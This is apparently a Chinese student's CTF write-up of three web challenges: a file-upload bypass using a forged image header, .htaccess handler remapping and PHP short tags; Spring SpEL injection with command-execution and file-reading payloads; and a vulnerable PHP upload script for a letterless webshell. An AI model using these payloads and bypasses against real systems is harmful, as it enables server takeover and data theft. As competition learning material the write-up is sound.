



我是笨比，当时两题思路都对！一次没成功就跑出去玩了。。。不过复现学到了好多新知识哈哈哈哈。
check in
考点：
CGI（我好像是用正常htaccess改后缀做的）
PHP短标签

满足两个条件：
- 首先不能包含【perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet】这些内容
- 然后还要MIME是image类型才行
ph的限制的话用短标签来绕过。
1
2
3
4
5
6
7
8
9
10
11
| 短标签记得在php.ini里面把short_open_tag=on
我记得是默认开启的
简单描述：
<?= "hello!" ?>
等价于
<?php echo "hello!" ?>
所以可以构造<?=system('cat /flag') 来得到flag
然后利用.htaccess文件把jpg文件解析成php文件
.htaccess里面的php利用`\`加换行符绕过。('\'：连接当前行与下一行字符)
我的理解：斜杠应该是转义(以前没遇到过，如果我说错了希望能纠正我一下，下次就不会错了。。)
|
生成两个文件的快捷脚本= =
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
| SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"
def generate_php_file(filename, script):
phpfile = open(filename, 'wb')
phpfile.write(script.encode('utf-16be'))
phpfile.write(SIZE_HEADER)
phpfile.close()
def generate_htacess():
htaccess = open('.htaccess', 'wb')
htaccess.write(SIZE_HEADER)
htaccess.write(b'AddType application/x-httpd-php .jpg\n')
htaccess.close()
generate_htacess()
generate_php_file("shell.jpg", "<?=system('cat /flag');")
|
calc
考点：
spel注入(以前用过这个类，或者他已经被包含进去了。看了好多博文，自己手动试了下，终于知道了。。)
这题用的是spring boot的框架，应该算是我最熟悉的框架了。不过我是第一次知道Scanner还有BufferedReader,两个类不仅可以读字符还可以读文件。学到了！~
前端是VUE的通过前端计算发送的请求，找到springboot写的接口。

那别的Payload会发现他过滤了Runtime,java.lang,getClass,T(,new等字符。(一旦满足过滤就返回Hacker!)
可的类
收录下一个师傅收集的常用payload：
1
2
3
4
| T(java.lang.Runtime).getRuntime().exec("nslookup a.com")
T(Thread).sleep(10000)
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup a.com')
new java.lang.ProcessBuilder({'nslookup a.com'}).start()
|
Scanner的payload
利用Scanner获取，file函数读取/flag里面的内容
1
2
3
| New java.util.Scanner(New java.io.File("/flag")).next()
next()读到空格结束
nextLine()读到回车结束
|
BuffereReader的payload
利用BufferedReader获取FileReader读取/flag里面的内容
1
2
3
| New java.io.BufferedReader(New java.io.FileReader("/flag")).readLine()
read()只读取一个字符
readLine()读取
|
这题正好查阅了很多资料。以前上课走神，没理解的一些东西，正好弄懂了~

还有个问题困扰在我心里，为什么BufferedReader不能搭配File用，但是Scanner可以。查了好多资料都没找到原因(难道是抽象类的原因么。)
Hard_Pentest_1
无字母数字webshell之提高篇
一些不包含数字和字母的webshell
源码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
| <?php
highlight_file(__FILE__);
$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if($_POST["submit"]){
if (($_FILES["file"]["size"] < 2048) && Check()){
if ($_FILES["file"]["error"] > 0){
die($_FILES["file"]["error"]);
}
else{
$filename=md5($_SERVER['REMOTE_ADDR'])."_".$_FILES["file"]["name"];
move_uploaded_file($_FILES["file"]["tmp_name"], $filename);
echo "save in:" . $sandbox."/" . $filename;
}
}
else{
echo "Not Allow!";
}
}
function Check(){
$BlackExts = array("php");
$ext = explode(".", $_FILES["file"]["name"]);
$exts = trim(end($ext));
$file_content = file_get_contents($_FILES["file"]["tmp_name"]);
if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content) &&
!in_array($exts, $BlackExts) &&
!preg_match('/\.\./',$_FILES["file"]["name"])) {
return true;
}
return false;
}
?>
|
参考
MIME类型
PHP短标签
spel注入
关于BufferedReader 和FileReader
Scanner读取与处理
无字母数字webshell之提高篇
一些不包含数字和字母的webshell